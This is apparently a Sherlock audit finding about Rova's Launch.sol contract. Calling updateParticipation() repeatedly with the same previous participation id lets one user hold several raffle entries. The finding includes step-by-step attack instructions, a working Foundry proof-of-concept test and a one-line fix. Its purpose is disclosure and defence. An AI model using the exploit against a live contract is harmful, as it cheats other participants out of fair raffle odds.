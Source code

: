 Cheerful Lemon Leopard

Medium

# updateParticipation() can be called multiple times with the same prevLaunchParticipationId, allowing user to have more than one participation ids

## Description
[updateParticipation()](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L312) is called with a user-provided `prevLaunchParticipationId`. The token and currency amount of this old participation is set to zero and a new participation id is assigned to the user. As [the docs explain](https://github.com/dpm-labs/rova-contracts/blob/main/README.md#signing-requests):
> prevLaunchParticipationId - (applies to updateParticipation requests) This would come from user input. Before signing, the backend would validate that the prevLaunchParticipationId is valid for the launchGroupId and that it belongs to the user making the request.

The user can do the following in case of a launch group which does not finalize at participation, like a raffle:
1. Call `participate()` with say, 1000 token amount. They are assigned a participation id = 1.
2. User then calls `updateParticipation()` with `prevLaunchParticipationId = 1` and new token amount as 1500. The protocol updates their token amount to 1500 and assigns a new participation id of 2.
3. User calls `updateParticipation()` again with `prevLaunchParticipationId = 1` and new token amount as 200. The creates a new participation id of 3 which has token amount of 200.
4. User now has two participation ids even though only one should be allowed, thus increasing their probability of winning the raffle.

Note that before Step 3, backend has to sign the user request. Even if the backend sees that the `prevLaunchParticipationId` currently has token amount as 0, it should not be a red flag since `settings.minTokenAmountPerUser` is configurable and the launch group could have been set up with this setting as zero.

## Impact
A user is able to create multiple participations in a launch group (e.g. a raffle which does not finalize at participation) and increase their chances of being picked as one of the winners.

## Proof of Concept
Add this file as `test/MultipleUpdates.t.sol` and run to see it pass:
```js
// SPDX-License-Identifier: GPL-3.0-only
pragma solidity ^0.8.22;

import {Test} from "forge-std/Test.sol";
import {LaunchTestBase} from "./LaunchTestBase.t.sol";
import {Launch} from "../src/Launch.sol";
import {
    LaunchGroupSettings,
    LaunchGroupStatus,
    ParticipationRequest,
    UpdateParticipationRequest,
    ParticipationInfo
} from "../src/Types.sol";

contract MultipleUpdates is Test, Launch, LaunchTestBase {
    LaunchGroupSettings public settings;
    ParticipationRequest public initialRequest;
    bytes public initialSignature;

    function setUp() public {
        _setUpLaunch();

        // Setup initial participation
        settings = _setupLaunchGroup();
        initialRequest = _createParticipationRequest();
        initialSignature = _signRequest(abi.encode(initialRequest));

        vm.startPrank(user1);
        currency.approve(
            address(launch),
            _getCurrencyAmount(initialRequest.launchGroupId, initialRequest.currency, initialRequest.tokenAmount)
        );
        launch.participate(initialRequest, initialSignature);
        vm.stopPrank();
    }

    function test_CanReuseParticipationIdMultipleTimes() public {
        // Create first update request
        UpdateParticipationRequest memory firstUpdateRequest = UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: initialRequest.launchParticipationId,
            newLaunchParticipationId: "newParticipationId1",
            userId: testUserId,
            userAddress: user1,
            tokenAmount: 1500 * 10 ** launch.tokenDecimals(), // Increase token amount
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
        bytes memory firstUpdateSignature = _signRequest(abi.encode(firstUpdateRequest));

        vm.startPrank(user1);

        // Approve additional tokens for first update
        uint256 firstUpdateCurrencyAmount = _getCurrencyAmount(
            firstUpdateRequest.launchGroupId, firstUpdateRequest.currency, firstUpdateRequest.tokenAmount
        );
        currency.approve(address(launch), firstUpdateCurrencyAmount);

        // Perform first update
        launch.updateParticipation(firstUpdateRequest, firstUpdateSignature);

        // Create second update request using same prevLaunchParticipationId
        UpdateParticipationRequest memory secondUpdateRequest = UpdateParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            prevLaunchParticipationId: initialRequest.launchParticipationId, // Reuse the same prev ID
            newLaunchParticipationId: "newParticipationId2",
            userId: testUserId,
            userAddress: user1,
            tokenAmount: 200 * 10 ** launch.tokenDecimals(),
            currency: address(currency),
            requestExpiresAt: block.timestamp + 1 hours
        });
        bytes memory secondUpdateSignature = _signRequest(abi.encode(secondUpdateRequest));

        // This should succeed even though we're reusing the same prevLaunchParticipationId
        launch.updateParticipation(secondUpdateRequest, secondUpdateSignature);

        vm.stopPrank();

        // Verify that all three participation records exist
        ParticipationInfo memory initialInfo = launch.getParticipationInfo(initialRequest.launchParticipationId);
        ParticipationInfo memory firstUpdateInfo =
            launch.getParticipationInfo(firstUpdateRequest.newLaunchParticipationId);
        ParticipationInfo memory secondUpdateInfo =
            launch.getParticipationInfo(secondUpdateRequest.newLaunchParticipationId);

        // Initial participation should be zeroed out
        assertEq(initialInfo.tokenAmount, 0);
        assertEq(initialInfo.currencyAmount, 0);
        assertEq(initialInfo.userId, testUserId); // But still retain userId
        assertEq(initialInfo.currency, address(currency)); // And currency

        // First update should be valid
        assertEq(firstUpdateInfo.tokenAmount, firstUpdateRequest.tokenAmount);
        assertEq(firstUpdateInfo.userId, testUserId);
        assertEq(firstUpdateInfo.currency, address(currency));

        // Second update should also be valid
        assertEq(secondUpdateInfo.tokenAmount, secondUpdateRequest.tokenAmount);
        assertEq(secondUpdateInfo.userId, testUserId);
        assertEq(secondUpdateInfo.currency, address(currency));
    }
}
```

## Mitigation
Simply reset the `userId` field too inside `updateParticipation()` so that it would fail at [this check: `if (request.userId != prevInfo.userId) {revert UserIdMismatch(prevInfo.userId, request.userId);}`](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L341-L343) if called again:
```diff
    // ... code inside updateParticipation()

        // Reset previous participation info
        prevInfo.currencyAmount = 0;
        prevInfo.tokenAmount = 0;
+       prevInfo.userId = bytes32(0);

        emit ParticipationUpdated(
            request.launchGroupId,
            request.newLaunchParticipationId,
            request.userId,
            msg.sender,
            request.tokenAmount,
            request.currency
        );
    }
```